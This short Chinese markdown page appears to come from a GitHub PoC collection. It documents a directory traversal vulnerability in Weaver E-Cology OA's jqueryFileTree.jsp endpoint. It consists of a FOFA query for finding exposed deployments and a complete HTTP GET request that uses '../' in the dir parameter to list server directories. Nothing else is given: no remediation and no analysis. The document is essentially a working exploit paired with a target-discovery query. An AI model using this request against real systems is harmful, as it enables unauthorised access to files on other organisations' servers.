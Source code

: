 ## 泛微OA-E-Cology-JqueryFileTree.jsp目录遍历漏洞



## fofa

```
 app="泛微-OA(e-cology)"
```



## poc

```
GET /hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../ HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![image-20240521201309707](./assets/202405212013765.png)